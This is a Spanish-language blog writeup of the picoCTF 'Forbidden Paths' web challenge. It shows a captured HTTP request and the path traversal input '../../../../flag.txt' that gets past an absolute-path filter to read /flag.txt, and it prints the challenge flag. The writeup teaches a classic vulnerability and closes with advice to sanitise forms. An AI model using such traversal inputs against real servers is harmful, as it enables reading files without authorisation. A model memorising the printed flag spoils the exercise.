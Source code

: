 ```yaml
---
title: Forbidden Paths
date: 2025-05-13 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, forbidden paths, explotación web, path transversal]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Forbidden Paths
Author: LT 'syreal' Jones
Description
Can you get the flag? We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag? Here's the website.
{: .prompt-tip }

Si capturamos el request vemos como se hace el GET
``` html
GET http://saturn.picoctf.net:50455/divine-comedy.txt HTTP/1.1
host: saturn.picoctf.net:50455
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
Si por ejemplo enviamos divine-comedy.txt estos serían los parámetros. 
filename=divine-comedy.txt&read=

Por otro lado el ejercicio nos da una pista de la hubicación /usr/share/nginx/html/  pues dice que esta en la raiz del sistema 
/flag.txt .Si contamos hacia arriba tenemos 4 directorios hacia el raíz. 
Así que probamos a introducir en el formultario lo siguiente.  
../../../../flag.txt

flag:  **picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}**

Sanitizar tus formularios u obtendrás un clásico de vulnerabilidad path traversal.